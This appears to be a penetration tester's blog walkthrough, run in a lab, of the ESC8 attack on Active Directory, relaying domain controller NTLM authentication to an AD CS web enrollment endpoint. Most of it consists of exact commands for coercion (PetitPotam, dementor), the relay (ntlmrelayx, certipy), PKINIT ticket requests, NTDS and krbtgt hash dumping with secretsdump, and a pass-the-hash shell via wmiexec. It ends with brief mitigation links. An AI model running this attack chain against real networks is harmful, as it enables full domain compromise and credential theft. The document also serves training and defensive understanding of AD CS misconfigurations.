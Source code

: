 


# Domain Privesc - NTLM Relay to AD CS HTTP Endpoint 

This is nothing new, I am just documenting my approach to exploiting an Active Directory (AD) environment with a misconfigured Active Directory Certificate Services (AD CS). This is only one method of many... I highly recommended to read the original research on attacking AD CS by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) - [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2). I also recommend reading [this blog post](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6) for more details about [Certipy](https://github.com/ly4k/Certipy), which is a fantastic tool for enumerating and abusing AD CS.

## Overview and Background

AD CS supports several HTTP-based enrollment methods via additional server roles that administrators can optionally install:

The Certificate Authority Web Enrollment, Certificate Enrollment Policy Web Service, and Network Device Enrollment Service roles in AD CS support HTTP-based certificate enrollment. If NTLM relay protections are not enabled (generally the default), then these enrollment interfaces are vulnerable to NTLM relay attacks. We will focus on the Web Enrollment interface which is accessible via `http://<ca-server>/certsrv/`, as I have seen this endpoint on several internal networks. This endpoint by default only supports HTTP (which cannot protect against NTLM relay attacks) and allows NTLM authentication.

One of the most frustrating parts of an internal (for me) has always been waiting for a high privilege accounts to attempt to connect to Responder, so you can capture and try relay the hash to another host which has SMB signing disabled. However, tools such as [PetitPotam](https://github.com/topotam/PetitPotam) and [SpoolSample](https://github.com/leechristensen/SpoolSample) ([Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) - python implementation) have come to the aid of impatient attackers waiting for hashes to roll in, and are provide a way to coerce an account to authenticate to us. In this post, we will coerce authentication from the Domain Controller (DC) to our attacker machine, which is configured to relay the NTLM authentication request to a vulnerable CA Web Enrollment endpoint. Once the certificate is intercepted, it can be used to request a Ticket Granting Ticket (TGT) for the `DC$` machine account - allowing us to Pass-the-Ticket or UnPAC and Pass-the-Hash to compromise the domain.

---
## Lab Notes:

- Domain: `lab.local`

- Domain Controller: 
	- Windows Server 2019
	- `dc.lab.local`
	- 172.30.0.136
- Certificate Authority: 
	- Windows Server 2016
	- `ca.lab.local`
	- 172.30.0.21
- Attacker Machine: 
	- Ubuntu 22.04
	- 172.30.0.232
- Assumption that the following user account has been compromised:
	- Username: jdoe
	- Password: Password123

	<p align="left">
	<img width="70%" src="/assets/images/ad/adcs-esc8/jdoe-user-properties.png"/>
	</p>


For the NTLM relay attack to work, the following conditions need to be true:

- ADCS is configured to allow NTLM-based authentication

- NTLM authentication is not protected by Extended Protection for Authentication (EPA)

- ADCS is running either of these services:
	- Certificate Authority Web Enrollment
	- Certificate Enrollment Web Service

<p align="center">
<img width="30%" src="/assets/images/ad/adcs-esc8/ntlm-based-auth-enabled.png"/>
<img width="30%" src="/assets/images/ad/adcs-esc8/adcs-enrollment-services.png"/>
<img width="30%" src="/assets/images/ad/adcs-esc8/eap-disabled.png"/>
</p>

If you are building a lab to test this on yourself, keep in mind that:

- You cannot relay NTLM credentials to the same host that is initiating the authentication request. This is called NTLM reflection and it used to work but has been patched (several times). So make sure you don't set up your CA (running AD CS) on the same host as the DC.

- When requesting a Kerberos authentication ticket (TGT), if you get the following error: `KDC_ERR_CLIENT_NOT_TRUSTED`, you have likely not imported the CA certificate into the DC. 
	
	> This typically happens when user’s smart-card certificate is revoked or the root Certification Authority that issued the smart card certificate (in a chain) is not trusted by the domain controller.
	
--- 	
## Tools:

Note: you won't need all of these tools, as I am covering various ways to perform the attack. So use whatever tool(s) work for you. 
 
 
 - OS Requirements
	
	```
	~$ sudo apt install -y python3 python3-pip ldap-utils
	``` 
	
 - [Certipy](https://github.com/ly4k/Certipy)
 
 	```
 	~$ git clone https://github.com/ly4k/Certipy
 	~$ cd Certipy
 	~$ sudo python3 setup.py install
 	``` 
 	
 - [Impacket](https://github.com/SecureAuthCorp/impacket) - You no longer need the ExAndroidDev fork of impacket, as their awesome work (ntlmrelayx-adcs-attack branch) was merged into SecureAuthLab's master branch.

 	```
 	~$ git clone https://github.com/SecureAuthCorp/impacket
 	~$ cd impacket
 	#~$ python3 -m venv impacket-venv
	#~$ source impacket-venv/bin/activate
	~$ sudo python3 -m pip install -r requirements.txt
	~$ sudo python3 -m pip install .
 	``` 
 	
 	
 - [PKINITtools](https://github.com/dirkjanm/PKINITtools)
  	
  	```
 	~$ git clone https://github.com/dirkjanm/PKINITtools
 	~$ cd PKINITtools
 	~$ python3 -m pip install -r requirements.txt
 	``` 
 	
 - [PetitPotam](https://github.com/topotam/PetitPotam)
 	
 	```
 	~$ git clone https://github.com/topotam/PetitPotam
 	```  	
 	
 - [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket)
 	
 	```
 	~$ git clone https://github.com/NotMedic/NetNTLMtoSilverTicket
 	```  	


## Identify the CA (Manually)

On Linux, if you don't already know the CA server details, you can try find it using the following query - which should return members of the "Cert Publisher" group. As per Windows:

> Members of this group are permitted to publish certificates to the directory.

```
ldapsearch -LLL -x -H ldap://172.30.0.136 -b "dc=lab,dc=local" -D jdoe@lab.local -w Password123 "(&(objectCategory=group)(cn=Cert Publishers))"
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ldapsearch-cert-publishers.png"/>
</p>

You could also try searching by computer description:

```
ldapsearch -LLL -x -H ldap://172.30.0.136 -b "dc=lab,dc=local" -D jdoe@lab.local -w Password123 "(&(objectCategory=computer)(description=*cert*))"
```
<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ldapsearch-computer-description.png"/>
</p>


On Windows, you can use the certutil application to easily identify the CA:

```
certutil.exe
```

<p align="left">
  <img width="40%" src="/assets/images/ad/adcs-esc8/certutil.png"/>
</p>

Once you have identified the CA server, open a web browser and verify that the certificate web enrollement service is running: 

<p align="left">
  <img width="80%" src="/assets/images/ad/adcs-esc8/adcs-http-web-enrollment.png"/>
</p>

## Enumerate AD CS Configuration

We will use [Oliver Lyak's](https://twitter.com/ly4k_) python implementation of Ceritfy - [Certipy](https://github.com/ly4k/Certipy) (which will also identify the CA for us), to enumerate details about the AD CS configuration - specifically which templates are supported. As per the github readme:

> The `find` command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations.

```
~$ certipy find 'lab.local/jdoe:Password123@dc.lab.local'
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/certipy-adcs-enumeration.png"/>
</p>

Looking at the output, we can see that Ceritpy identified the CA server and that the HTTP Web Enrollment service is enabled:

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/certipy-find-output.png"/>
</p>

There are some [custom bloodhound queries](https://github.com/ly4k/Certipy/blob/main/customqueries.json) which can quickly identify misconfigured certificate templates.

<p align="left">
  <img width="60%" src="/assets/images/ad/adcs-esc8/bloodhound-custom-queries.png"/>
</p>

Note: this is only scratching the surface of what you can do with certipy. It is an extremely useful offensive tool for abusing AD CS. I found this found this out close to the end of writing this blog as I had the tool on my list of things to read but didn't get around to it until it was too late.


## NTLM Relay Set Up

The first step is to set up our attacker machine to perform the NTLM relay attack using [impacket's ntlmrelayx](https://github.com/SecureAuthCorp/impacket)

```
~$ sudo python3 impacket/examples/ntlmrelayx.py -debug -smb2support --target http://ca.lab.local/certsrv/certfnsh.asp --adcs --template DomainController
```

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/ntlmrelayx-relay-setup.png"/>
</p>


## Coercing Authentication of the DC to our Attacker Machine

Next, we need to coerce authentication of the DC to our attacker machine, so we can relay the authentication request to the CA. 


`PetitPotam.py -d <domain> -u <user> -p <password> <attacker-ip> <target-ip>`

```
~$ python3 PetitPotam/PetitPotam.py -d lab.local -u jdoe -p Password123 172.30.0.232 172.30.0.136
```

After executing PetitPotam, the authentication request is relayed via our attacker machine to the CA server and a certificate was issued for the DC machine account (`DC$`).

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ntlmrelayx-petitpotam-execute.png"/>
</p>

Looking at the CA server, we can see that the new certificate (Request ID:4) that has been issued:

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/ca-new-dc-cert.png"/>
</p>


## Pass-the-Ticket [on Linux]

On Linux, first we'll need to decode the base64 encoded certificate blob that we intercepted and write the output into a file.

```
~$ echo "MIIRpQIBAzCCEV8GCSqGSIb3DQEHAa..." | base64 -d > cert.pfx
```

We can then use the certificate to impersonate the DC machine account (`DC$`) and use [DirkJam’s gettgtpkinit](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) script to request a Ticket Granting Ticket (TGT).

```
~$ python3 PKINITtools/gettgtpkinit.py 'lab.local/dc$' -cert-pfx cert.pfx dc.ccache
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/request-tgt.png"/>
</p>

Now that we have a valid TGT, we need to request a Ticket Granting Service (TGS) with Kerberos S4U2Self. This can be done using [DirkJam’s gets4uticket](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) script to obtain a Kerberos service ticket (TGS) to the CIFS service for the local administrator of the DC - this is known as a silver ticket 🎟.

```
~$ KRB5CCNAME=dc.ccache python3 PKINITtools/gets4uticket.py 'kerberos+ccache://lab.local\dc$:dc.ccache@dc.lab.local' cifs/dc.lab.local@auralab.local Administrator@lab.local Administrator.ccache -v
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/request-s4u-admin.png"/>
</p>

Finally we can pass-the-ticket and use [impacket's secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) script to loot the DC's `NTDS.dit` file. As an example, we can retrieve the hash of the `krbtgt` account, allowing us to craft golden tickets 🎫.

```
~$ KRB5CCNAME=Administrator.ccache python3 impacket/examples/secretsdump.py -just-dc-ntlm -user-status -k lab.local/Administrator@dc.lab.local -no-pass -just-dc-user Administrator
```

Dumping the entire `NTDS.dit` file is a bit overkill on an engagement as all of the user accounts and service accounts *should* be reset after they have been compromised. On a large customer network, with several hundred service accounts being used, this could cause many hours of work. 

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ptt-secrets-dump-krbtgt.png"/>
</p>

```
~$ KRB5CCNAME=Administrator.ccache python3 impacket/examples/secretsdump.py -just-dc-ntlm -user-status -debug -k lab.local/Administrator@dc.lab.local -no-pass -outputfile dc-lab-secretsdump
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ptt-secrets-dump-all.png"/>
</p>


# Alternatively: UnPAC and Pass-the-Hash

Instead of passing the ticket, we could get the NT hash of the DC machine account. This is done using [DirkJam’s getnthash](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) script and our previously obtained TGT to request a PAC for the DC machine account (`DC$`) using Kerberos U2U. The NT hash can be decrypted using the `AS-REP` key that was generated for the TGT. 

```
~$ KRB5CCNAME=dc.ccache sudo python3 PKINITtools/getnthash.py 'lab.local/dc$' -key db89b471b9aae3e77255158503d64badc6354c325b7937074924bfd0b0b09dfd
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/recover-nt-hash.png"/>
</p>


Note: Machine accounts (in this case `DC$`) don't have enough privileges to execute commands with wmiexec. However, we can use the NT hash of the DC machine account to retrieve the DC local Administrator NTLM hash. 

```
~$ sudo python3 impacket/examples/secretsdump.py -hashes :fbe7ae23ece0b7fe4a3f2d1dfde5682a 'lab.local/dc$@dc.lab.local' -just-dc-user Administrator
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/recover-dc-localadmin-hash.png"/>
</p>

Once have obtained the NTLM hash of the local Administrator account for the DC, we can perform a pass-the-hash attack and gain shell access using [impacket's wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) script.

```
~$ sudo python3 impacket/examples/wmiexec.py -hashes :4ea013e3dcbd5ee3bb088615b7589b19 lab.local/Administrator@dc.lab.local
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/wmiexec-dc-shell.png"/>
</p>

We could also have used the NT hash of the DC machine account to retrieve the NTLM hash of the `krbtgt` account - allowing us to generate golden tickets.

```
~$ sudo python3 impacket/examples/secretsdump.py -hashes :fbe7ae23ece0b7fe4a3f2d1dfde5682a 'lab.local/dc$@dc.lab.local' -just-dc-user krbtgt
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/recover-krbtgt-hash.png"/>
</p>


## Notice me Certipy

As I mentioned earlier, you could actually perform most of the attack chain with Certipy. Additionally, Certipy can exploit many more AD CS misconfigurations and will be my go-to tool in the future when it comes to pwning AD CS.


### NTLM Relay Setup

```
~$ sudo certipy relay -ca ca.lab.local -template DomainController
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/certipy-relay-setup.png"/>
</p>


### Coercing Authentication of the DC to our Attacker Machine

To keep things a little interesting at this point, let's use [3xocyte's dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) script to exploit the print spooler ([SpoolSample](https://github.com/leechristensen/SpoolSample)) bug. This will have the same effect of coercing authentication of the DC to our attacker machine.

`python3 dementor.py <attacker-ip> <target-ip> -u <username> -p <password> -d <domain>`

```
~$ python3 NetNTLMtoSilverTicket/dementor.py 172.30.0.232 172.30.0.136 -u jdoe -p Password123 -d labl.local
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/certipy-dementor-execute.png"/>
</p>

If the relay attack is succesful, the certificate and private key will be saved as a PFX file - `dc.pfx` in this instance.


### Pass-the-Ticket or UnPAC and Pass-the-Hash

Similar to how to did before, we can obtain a TGT and recover the NT hash of the DC machine account using the `auth` command of certipy. As per the readme:

> The  `auth` command will use the PKINIT Kerberos extension to authenticate with the provided certificate to retrieve a TGT and the NT hash of the user.

```
~$ certipy auth -pfx dc.pfx
```

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/certipy-auth.png"/>
</p>

You could now either pass-the-ticket using the credential cache (`dc.ccache`) or pass-the-hash of the `DC$` machine account and execute impackets secretsdump as I have already covered previously.


## Mitigation

- "Harden AD CS HTTP Endpoints – PREVENT8" of the original [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) covers the mitigation of this issue. 
- https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429

## Links + References

- Will Schroeder & Lee Christensen - Certified Pre-Owned: https://posts.specterops.io/certified-pre-owned-d95910965cd2
- Gilles Lionel - PetitPotam POC: https://github.com/topotam/PetitPotam
- https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/
- https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6
- https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate
- https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux
- https://www.hackingarticles.in/domain-escalation-petitpotam-ntlm-relay-to-adcs-endpoints/
- https://www.thehacker.recipes/ad/movement/ad-cs
- https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash


## Credits

Obviously to all the researchers and people who make these offensive tools. Also a shoutout to my employer [Aurainfosec](https://www.aurainfosec.com/) for giving me time to learn and upskill :)
